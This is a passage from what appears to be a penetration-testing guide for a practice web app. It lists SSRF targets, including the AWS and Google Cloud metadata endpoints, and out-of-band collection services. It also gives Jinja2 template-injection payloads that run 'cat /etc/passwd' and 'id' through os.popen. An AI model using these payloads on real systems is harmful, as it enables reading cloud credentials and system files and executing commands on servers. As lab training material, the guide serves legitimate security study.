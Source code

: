 ### Cloud Metadata Access
```bash
# AWS metadata
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/

# Google Cloud
http://metadata.google.internal/computeMetadata/v1/
```

### External Service Interaction
```bash
# Webhook testing
https://webhook.site/#!/your-unique-id

# Request bin
https://requestbin.com/
```

### Testing Steps
1. Navigate to admin stock checker
2. Intercept the stock API request
3. Modify URL to target internal services
4. Observe responses and timing differences

### Automated Testing
```bash
python ssrf_exploit.py
```

---

## 9. Server-Side Template Injection (SSTI)

### 🎯 Target: Template rendering endpoints

### Detection Payloads
```python
# Basic detection
{{7*7}}
${7*7}
#{7*7}

# Flask/Jinja2 specific
{{config}}
{{self.__init__.__globals__}}
```

### Command Execution
```python
# File read
{{''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].modules['os'].popen('cat /etc/passwd').read()}}

# Command execution
{{self.__init__.__globals__['os'].popen('id').read()}}
```
